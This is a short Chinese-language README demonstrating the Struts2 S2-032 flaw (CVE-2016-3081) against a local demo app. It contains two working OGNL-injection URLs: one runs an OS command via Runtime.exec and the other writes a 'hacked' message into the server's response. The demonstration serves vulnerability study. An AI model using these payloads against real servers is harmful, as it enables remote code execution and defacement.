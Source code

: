 # Struts2 远程漏洞

主要为S2-32问题,代号[CVE-2016-3081]
参考[实现](http://www.cnblogs.com/mrchang/p/6501428.html)

POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?method:%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2c%23f%3d%40java.lang.Runtime%40getRuntime().exec(%23parameters.cmd%5b0%5d)%2c%23request.toString&cmd=calc
</pre>

结果如下:

![hacker](hacker.jpg)

另外1个POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?method:%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2c%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse()%2c%23res.setCharacterEncoding(%23parameters.encoding%5b0%5d)%2c%23w%3d%23res.getWriter()%2c%23w.print(%23parameters.args%5b0%5d)%2c%23w.close&pp=%2f&args=the+server+have+been+hacked&encoding=UTF-8
</pre>

详情[参考](http://dogewatch.github.io/2016/04/29/struts2/)和脚本[检测](http://blog.topsec.com.cn/apache-structs2-s2-032%e6%8a%80%e6%9c%af%e5%88%86%e6%9e%90%e5%8f%8a%e6%bc%8f%e6%b4%9e%e6%a3%80%e6%b5%8b%e8%84%9a%e6%9c%ac/)